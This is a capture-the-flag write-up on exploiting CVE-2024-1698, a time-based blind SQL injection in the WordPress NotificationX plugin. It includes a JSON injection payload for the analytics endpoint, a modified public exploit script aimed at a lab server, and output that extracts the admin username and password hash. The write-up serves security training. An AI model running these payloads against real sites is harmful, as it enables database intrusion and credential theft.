

# SQL Injection: CTF #8

## Tasks

#### You should start by collecting all the information you can from the website. In particular, and as in a previous challenge about Wordpress, discover versions of installed software.

- WordPress: v6.7.1 [1]
- NotificationX plugin: v2.8.1 [2]

#### You already know that we want to exploit a SQL injection vulnerability. Are there reported vulnerabilities in public databases and/or tools that allow you to automate the discovery and abuse of SQL injection vulnerabilities?

Yes, for example [CVE-2024-1698](https://nvd.nist.gov/vuln/detail/cve-2024-1698) states that the NotificationX plugin in all versions up to 2.8.2 are vulnerable to SQL injection. 

#### What is the vulnerable website endpoint, and how can an attack be carried out? How can the vulnerability be catalogued?

The vulnerable website endpoint is the 'type' parameter in a POST request to the /wp-json/notificationx/v1/analytics route.
An example of a vulnerable request can be the following content body [3]:
```json
{
  "nx_id": 1337,
  "type": "IF(LENGTH((select user_login from wp_users where id=1))=5,SLEEP(1),null)-- -",
}
```
Focusing on this specific SQL query, the time it takes to respond to the request will indicate if there is a user with id of 1 and a length of 5.
This is an example of a time-based blind SQL injection.


#### The attack will allow you to extract information from the server's database. In particular, you want to discover the administrator's password, but as good security standards dictate, it is not stored cleanly in the database, but only a hash of the original password is stored. For this server, and in more detail, what is the password storage policy?

A typical WordPress password hash is stored in the database in the following format:
```
$P$ BuRuB0Mi 3926H8h.hcA3pSrUPyq0o10
(A) (B)      (C)
```
- (A) The hash type identifier, which is always $P$ for WordPress.
- (B) The salt appended to the password before the hash is calculated.
- (C) The hash of the salted password.

This hash is in PHPass format, which uses MD5 under the hood. 

#### Is storing a hash of the password secure in the sense that it makes it impossible to recover the original password? This problem is very common not only in the case of vulnerabilities, but also in the case of data leaks. There are several ways to try to reverse hash functions for passwords and tools to automate the process.

In theory, if there is no way to deduce the original password from the hash, then the hash is considered secure. However, in this case, a normal computer can crack a MD5 hash in seconds using a brute force method.

## Vulnerability exploitation

1. Modify the exploit.py script from the exploit [3] to attack the server in question with a reasonable delay:
```python
# Sleep time for SQL payloads
delay = 1

# URL for the NotificationX Analytics API
url = "http://44.242.216.18:5008/wp-json/notificationx/v1/analytics"
```

2. Run the exploit.py script and wait a few minutes.
```bash
$ python3 exploit.py 
Admin username length: 5
Admin username: a
Admin username: ad
Admin username: adm
Admin username: admi
Admin username: admin
Admin password hash: $
Admin password hash: $P
Admin password hash: $P$
Admin password hash: $P$B
Admin password hash: $P$Bu
Admin password hash: $P$BuR
Admin password hash: $P$BuRu
Admin password hash: $P$BuRuB
Admin password hash: $P$BuRuB0
Admin password hash: $P$BuRuB0M
Admin password hash: $P$BuRuB0Mi
Admin password hash: $P$BuRuB0Mi3
Admin password hash: $P$BuRuB0Mi39
Admin password hash: $P$BuRuB0Mi392
Admin password hash: $P$BuRuB0Mi3926
Admin password hash: $P$BuRuB0Mi3926H
Admin password hash: $P$BuRuB0Mi3926H8
Admin password hash: $P$BuRuB0Mi3926H8h
Admin password hash: $P$BuRuB0Mi3926H8h.
Admin password hash: $P$BuRuB0Mi3926H8h.h
Admin password hash: $P$BuRuB0Mi3926H8h.hc
Admin password hash: $P$BuRuB0Mi3926H8h.hcA
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3p
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pS
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pSr
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pSrU
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pSrUP
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pSrUPy
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pSrUPyq
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pSrUPyq0
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pSrUPyq0o
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pSrUPyq0o1
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pSrUPyq0o10
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pSrUPyq0o10
[*] Admin credentials found:
Username: admin
Password hash: $P$BuRuB0Mi3926H8h.hcA3pSrUPyq0o10
```

3. Now with the hash, we have the hash of the password in PASSWD format:
```
admin:$P$BuRuB0Mi3926H8h.hcA3pSrUPyq0o10
```

4. Use any password cracking tool (e.g., johnny) to crack the password hash:  



The flag is `flag{heartbroken}`.


---

[1] The WordPress version can be found in the source code:
  ```html
  <meta name="generator" content="WordPress 6.7.1">
  ```

[2] The NotificationX version can be found in the source code:
  ```html
  <script src="http://44.242.216.18:5008/wp-content/plugins/notificationx/assets/public/js/frontend.js?ver=2.8.1" id="notificationx-public-js"></script>
  ```

[3] The source of the SQL injection exploit: https://github.com/kamranhasan/CVE-2024-1698-Exploit
